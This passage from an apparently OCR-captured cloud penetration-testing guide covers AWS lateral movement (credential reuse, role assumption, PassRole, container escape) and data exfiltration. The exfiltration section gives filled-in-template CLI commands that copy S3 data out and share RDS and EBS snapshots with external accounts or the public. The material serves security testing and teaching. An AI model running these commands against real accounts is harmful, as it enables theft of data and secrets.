 
## Phase 4: Lateral Movement

* **Using Acquired Credentials:** Credentials obtained via privesc or enumeration (e.g., from EC2 metadata, Secrets Manager, hardcoded in code, Lambda env vars, ECS task roles) can be used to access other services/resources.
* **Network Pivoting:**
    * If an EC2 instance is compromised, it might have network access to other internal instances or services (RDS, ElastiCache) not exposed externally.
    * Security Groups and NACLs dictate network paths.
* **Assume Roles:** Use `sts:AssumeRole` with discovered roles that have trust relationships with your current principal or a compromised principal.
* **Service-to-Service Communication:** Analyze how services are chained together.
* **Pass-the-Role:** If you can start a service (e.g., EC2, Lambda) and specify an IAM role for it to use (`iam:PassRole`), you can potentially make that service perform actions on your behalf using that role's permissions.
* **VPC Peering/Transit Gateway:** Understand cross-VPC communication paths.
* **Pivoting through Private IP ("BlackBox III"):**
    Accessing internal web applications or services on their private IPs from a compromised EC2 instance that has network visibility.
* **Docker Escape and Container Hopping ("BlackBox II"):**
    Escape a container to the host, then access other containers running on the same host.

---

## Phase 5: Data Exfiltration

* **S3 Buckets:**
    * Copying data out: `aws s3 cp s3://<bucket_name>/<path> <local_path_or_other_s3_bucket> --recursive --profile <profile_name>`
    * Making buckets/objects public (if permissions allow).
    * Generating pre-signed URLs: `aws s3 presign s3://<bucket_name>/<object_key> --expires-in <seconds> --profile <profile_name>`
* **RDS Snapshots:** Share snapshots with an external account or make them public.
    ```bash
    aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot_id> --attribute-name restore --values-to-add <external_aws_account_id_or_"all"> --profile <profile_name> --region <region>
    ```
* **EBS Snapshots:** Share or make public.
    ```bash
    aws ec2 modify-snapshot-attribute --snapshot-id <snap_id> --attribute createVolumePermission --operation-type add --user-ids <external_aws_account_id_or_"all"> --profile <profile_name> --region <region>
    ```
* **Database Dumps:** Connect to RDS/databases on EC2 and exfiltrate data.
* **Secrets Manager/Parameter Store:** Retrieve and exfiltrate secrets.
* **Code Exfiltration (Lambda, CodeCommit, EC2 instances).**
* **DNS Exfiltration:** Using DNS queries to exfiltrate small amounts of data from compromised EC2 instances if direct outbound traffic is blocked.
* **CloudTrail Log Exfiltration (if access to the S3 bucket holding them is achieved).**
* **DynamoDB:** Scan tables and exfiltrate data.

---